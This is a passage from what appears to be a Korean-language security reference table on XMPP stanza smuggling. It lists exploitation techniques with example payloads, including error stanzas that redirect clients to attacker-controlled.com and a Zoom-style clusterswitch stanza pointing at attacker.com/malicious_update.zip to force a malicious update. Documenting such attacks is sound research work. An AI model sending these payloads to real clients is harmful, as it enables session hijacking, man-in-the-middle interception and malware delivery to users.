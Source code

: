     crash[0] = 1;
  }
}</code></pre>
      </td>
      <td>자동화된 Fuzzing 스크립트와 로그 비교 및 클라이언트 화면 확인을 통해 파서 불일치가 실제 발생하는지 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Custom Error Stanza Redirect Exploitation</td>
      <td> <pre> <code>&lt;stream:error&gt;
      &lt;revoke-token reason='1' web-domain='...'/&gt;
  &lt;/stream:error&gt;</code></td>
      <td>악성 <code>&lt;stream:error&gt;</code> 스탠자를 삽입해 클라이언트를 공격자 도메인으로 리다이렉트하고, 세션 탈취·인증 우회를 실행한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Connection Redirect (MitM)</td>
      <td>
        <pre><code>&lt;stream:error&gt;
  &lt;revoke-token reason='1' web-domain='attacker-controlled.com'/&gt;
&lt;/stream:error&gt;</code></pre>
      </td>
      <td><code>see-other-host</code>과 같은 표준 에러 스탠자나 애플리케이션의 커스텀 리디렉션 Stanza를 통해 피해자 클라이언트의 연결을 공격자가 제어하는 서버로 강제 전환시켜 중간자 공격을 수행한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Custom Extension Abuse</td>
      <td>
        <pre><code>&lt;!-- Zoom's custom stanza to force an update check from a malicious server --&gt;
&lt;clusterswitch&gt;
  &lt;releasenotes svr_url="http://attacker.com/malicious_update.zip" /&gt;
&lt;/clusterswitch&gt;</code></pre>
      </td>
      <td>서버에서만 사용되어야 할 애플리케이션의 비공개 또는 커스텀 XMPP 확장 기능을 클라이언트에 직접 전송한다. 클라이언트의 자동 업데이트 메커니즘을 조작하거나 숨겨진 기능을 트리거하여 의도치 않은 동작을 유발한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
